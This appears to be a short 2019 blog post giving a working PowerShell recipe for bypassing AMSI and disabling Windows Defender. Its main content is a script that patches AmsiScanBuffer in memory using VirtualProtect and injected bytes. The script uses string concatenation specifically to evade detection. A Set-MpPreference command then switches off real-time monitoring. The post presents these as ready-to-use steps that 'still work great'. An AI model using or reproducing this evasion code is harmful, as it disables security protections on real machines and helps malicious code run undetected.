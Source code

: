 ```yaml
---
title: Bypassing Windows Defender and AMSI 2019
date: 2019-09-23
draft: false
description: How to bypass Windows Defender and AMSI using a powershell script.
---
```

These steps assume you have access to powershell with admin rights. For the record, I’m not sure if this will work on a domain joined machine where conflicting policies may have been set. The AMSI script works by patching the AMSI DLL in memory, which means it’s not persistent and does not require privileges. The Defender command changes a registry value, which means it is persistend and it also requires privileges.

Disable AMSI

`$win32 = @"`  
`using System.Runtime.InteropServices;`  
`using System;`  
`public class Win32 {`  
`[DllImport("kernel32")]`  
`public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);`  
`[DllImport("kernel32")]`  
`public static extern IntPtr LoadLibrary(string name);`  
`[DllImport("kernel32")]`  
`public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect`  
`);`  
`}`  
`"@`  
`Add-Type $win32`  
`# String Concatenation to bypass blacklist`  
`$ptr = [Win32]::GetProcAddress([Win32]::LoadLibrary("amsi.dll"), "AmsiScan"+"Buffer")`  
`$b = 0`  
`[Win32]::VirtualProtect($ptr, [UInt32]5, 0x40, [Ref]$b)`  
`$buf = New-Object Byte[] 7`  
`$buf[0] = 0x66; $buf[1] = 0xb8; $buf[2] = 0x01; $buf[3] = 0x00; $buf[4] = 0xc2; $buf[5] = 0x18; $buf[6] = 0x00;`  
`[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 7)`

Credit to [Avi Gimpel](https://web.archive.org/web/20220520135811/https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/), the exact code in his blog post no longer works because it contains “AmsiScanBuffer” but with a little concatenation it still works great!

Disable Defender

`PowerShell Set-MpPreference -DisableRealtimeMonitoring 1`

Credit to [Shawn Brink](https://web.archive.org/web/20220520135811/https://www.tenforums.com/tutorials/3569-turn-off-windows-defender-real-time-protection-windows-10-a.html#option5)